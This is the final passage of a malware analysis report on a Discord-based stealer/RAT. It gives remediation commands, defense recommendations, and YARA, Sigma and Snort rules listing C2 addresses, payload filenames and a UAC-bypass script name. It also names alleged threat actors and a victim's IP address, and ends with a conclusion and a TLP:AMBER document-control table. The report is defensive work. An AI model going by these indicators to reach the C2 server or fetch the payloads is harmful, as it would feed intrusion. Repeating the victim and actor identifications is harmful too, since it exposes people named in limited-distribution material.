
**Step 3 — Remove persistence mechanisms**
```cmd
schtasks /delete /tn "conhost_update" /f
reg delete HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v conhost.exe /f
```

**Step 4 — Re-enable security features**
```cmd
REG delete HKCU\Software\Microsoft\Windows\CurrentVersion\Policies\System /v DisableTaskMgr /f
REG delete "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /f
sc config wuauserv start= demand
sc config wscsvc start= demand
reagentc.exe /enable
bcdedit /set {default} recoveryenabled Yes
```

**Step 5 — Clean the hosts file**
Remove all entries added by the malware from `C:\Windows\System32\drivers\etc\hosts`.

**Step 6 — Change all passwords**
- Windows account password
- Discord password (enable 2FA immediately)
- All browser-saved passwords
- Cryptocurrency wallet passwords and seed phrases
- Email account passwords
- Banking passwords

**Step 7 — Check Discord for injection**
Navigate to the Discord application folder and check if `index.js` has been modified. If the file contains references to a webhook URL, Discord has been injected and must be fully reinstalled.

**Step 8 — Scan with multiple tools**
- Malwarebytes (free version)
- ESET Online Scanner
- Kaspersky Rescue Disk

---

## 14.4 Long-Term Organizational Recommendations

| Recommendation | Priority |
|---------------|----------|
| Deploy Endpoint Detection & Response (EDR) with behavioral monitoring | High |
| Implement application whitelisting to prevent unauthorized executables | High |
| Enable Windows Defender Tamper Protection | High |
| Monitor for Discord API traffic on corporate networks | High |
| Restrict PowerShell execution policy to signed scripts only | Medium |
| Implement network segmentation to limit lateral movement | Medium |
| Enable Windows Event Logging with Sysmon | Medium |
| Conduct regular user awareness training on social engineering | Medium |
| Maintain offline, air-gapped backups | High |
| Deploy YARA rules from Section 12 in endpoint security tools | Medium |

---

## 14.5 Detection Rules

### YARA Rule

```yara
rule BlazeStealer_RAT {
    meta:
        description = "Detects BlazeStealer RAT malware"
        author = "DigitalFootprints MIA Research Unit"
        date = "2025-11-28"
        threat_level = "critical"
        reference = "MIA-2025-001"

    strings:
        $c2_server    = "173.208.142.174:8080"
        $github_repo  = "BlazeSquad666/discord-injection"
        $malware_path = "C:\\Windows\\System32\\Intel"
        $task_name    = "conhost_update"
        $reg_key      = "conhost.exe"
        $password     = "hackedbyblazesquad2465"
        $author       = "BlazeSquad666"
        $contact      = "icracked"
        $payload_file = "C:\\Windows\\Tasks\\p4yl0ad"
        $uac_bypass   = "EventViewerRCE.ps1"
        $branding     = "BlazeStealer"

    condition:
        any of them
}
```

### Sigma Rule

```yaml
title: BlazeStealer RAT Activity
id: mia-2025-001
status: experimental
description: Detects BlazeStealer RAT persistence and execution indicators
author: DigitalFootprints MIA Research Unit
date: 2025/11/28
tags:
    - attack.persistence
    - attack.execution
    - attack.credential_access
    - attack.impact
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        CommandLine|contains:
            - 'C:\Windows\System32\Intel'
            - 'conhost_update'
            - 'hackedbyblazesquad2465'
            - '173.208.142.174'
            - 'EventViewerRCE.ps1'
            - 'p4yl0ad'
    condition: selection
falsepositives:
    - None expected
level: critical
```

### Snort Rule

```
alert tcp any any -> 173.208.142.174 8080 (msg:"BlazeStealer C2 Payload Download"; flow:to_server,established; content:"remotepc.zip"; http_uri; classtype:trojan-activity; sid:2025001; rev:1;)
alert tcp any any -> 173.208.142.174 8080 (msg:"BlazeStealer C2 DLL Download"; flow:to_server,established; content:"libopus-0.x64.dll"; http_uri; classtype:trojan-activity; sid:2025002; rev:1;)
```

---
---

# SECTION 15 — CONCLUSION

## 15.1 Summary of Findings

This investigation has produced a comprehensive, evidence-based analysis of BlazeStealer RAT — a sophisticated, commercially operated malware that poses a serious threat to individuals and organizations across Africa and beyond.

The key findings of this investigation are:

**On the Malware:**
BlazeStealer is not a simple piece of malware. It is a fully-featured criminal toolkit with capabilities spanning information theft, remote access, surveillance, ransomware, and permanent system destruction. Its use of Discord as a command-and-control channel makes it difficult to detect with traditional security tools. Its extensive anti-analysis features demonstrate that the author has significant technical knowledge and has deliberately designed the malware to resist investigation.

**On the African Connection:**
The confirmed infection of a Tunisian victim (IP: 31.215.240.196) directly validates the Africa-focused mandate of this research initiative. The victim was actively targeted with ransomware within minutes of infection, demonstrating that African users are not merely incidental victims but active targets of this campaign.

**On the Threat Actors:**
Two criminal operators — retireed_ and oscaritoxx — have been identified with sufficient detail for law enforcement referral. The malware author, Klozy/BlazeSquad666, has been identified through multiple corroborating indicators including hardcoded source code variables, GitHub identity, and Discord contact information.

**On the Infrastructure:**
The malware's C2 infrastructure — including the Discord server, payload delivery server, and GitHub repository — was confirmed active at the time of this investigation. This infrastructure supports an ongoing criminal operation that may have additional victims beyond the three identified in this report.

## 15.2 Confidence Assessment

| Finding | Confidence Level |
|---------|----------------|
| Malware capabilities (from source code) | HIGH — Direct source code analysis |
| Victim 1 identity and location (Tunisia) | HIGH — IP geolocation confirmed |
| Threat actor retireed_ identity | HIGH — Discord ID, username, clan data |
| Threat actor oscaritoxx identity | HIGH — Discord ID, username, avatar data |
| Malware author Klozy identity | MEDIUM-HIGH — Multiple corroborating indicators |
| Victim 2 and 3 locations | LOW — IP addresses not extracted |
| Additional victims beyond 3 identified | UNKNOWN — Investigation ongoing |

## 15.3 Final Statement

BlazeStealer represents exactly the type of threat that the MIA research initiative was established to investigate — a sophisticated, commercially operated malware campaign with confirmed African victims, operated by identifiable threat actors using modern infrastructure. The intelligence produced in this report is actionable, evidence-based, and suitable for law enforcement referral, victim notification, and organizational defense.

This investigation demonstrates that meaningful threat intelligence can be produced through disciplined open-source research, careful source code analysis, and systematic documentation — even by a small, early-career research team.

---

## Document Control

| Field | Value |
|-------|-------|
| Report Title | BlazeStealer RAT — Full Technical & Attribution Analysis |
| Report Number | MIA-2025-001 |
| Classification | TLP:AMBER — Limited Distribution |
| Prepared By | DigitalFootprints Corp — MIA Research Unit |
| Team Members | Badmus Sodiq (Threat Intelligence), David (Digital Forensics / Data Collection), Tekena (Malware Analysis) |
| Date Prepared | November 2025 |
| Version | 1.0 — Final |
| Distribution | Internal Leadership / Senior Management Only |
| Next Review | January 2026 |

---

*This report was produced as part of Project MIA (Malware Intelligence in Africa), a 3-month pilot research initiative by DigitalFootprints Corp NYSC members. All analysis was conducted in isolated laboratory environments following responsible disclosure principles. No victim systems were accessed. All intelligence was gathered from the malware's own source code, public infrastructure, and open-source data.*

---

**END OF REPORT — MIA-2025-001**
